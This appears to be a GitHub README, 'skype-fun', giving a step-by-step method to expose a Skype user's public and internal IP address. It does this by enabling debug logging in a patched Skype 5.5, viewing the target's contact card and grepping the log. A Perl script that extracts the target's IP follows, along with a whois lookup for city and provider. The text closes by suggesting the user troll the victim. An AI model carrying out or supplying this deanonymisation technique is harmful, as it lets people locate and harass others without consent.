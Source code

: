 skype-fun
=========

Skype user IP-address disclosure

1. Downloading this patched version of Skype 5.5: 
http://skype-open-source.blogspot.com/2012/03/skype55-deobfuscated-released.html 

2. Turn on debug-log file creation via adding a few registry keys. 
https://github.com/skypeopensource/skypeopensource/wiki/skype-3.x-4.x-5.x-enable-logging 

3. Make "add a Skype contact" action, but not send add request, just click on user, to view his vcard(general info about user). This will be enough. 

4. Take look in the log of the desired skypename.
The record will be like this for real user ip: -r195.100.213.25:31101 
And like this for user internal network card ip: -l172.10.5.17 

21:16:45.818 T # 3668 PresenceManager: aїљ noticing skypetestuser1 0x3e54a539a91a19fc-s-s65.55.223.23 :40013-r195 .100.213.25:31101-l172 .10.5.17:22960 23d23109 82f328ff 


5. Catch user via whois service.
http://nic.ru/whois/?query=195.100.213.25 

This is help you to get info about skype user: City, Country, Internet provider and internal user ip-address. 

Now you can troll him about CIA and Mossad, he-he.

--- 
Perl script to automate the search in the debug log. 
---
#!perl

$LOGFILE="debug-20120420-2257.log";
$SKYPENAME="skypetestuser1";

open(RD,$LOGFILE);
open(WR,">_ip_logger.txt");
while(<RD>){ chomp;
 $line=$_;

 if( ($line=~ /PresenceManager:/) and ($line=~ /noticing/) ){
  $line=~ /-r(\d+.\d+.\d+.\d+)/;
  $ip=$1;

  print WR $line."\n";
  print WR "IP: $ip\n";

  if ($line=~ /$SKYPENAME/){
   print $line."\n";
   print "${SKYPENAME} IP: $ip\n";
  };
 };

};
close(RD);
close(WR);
---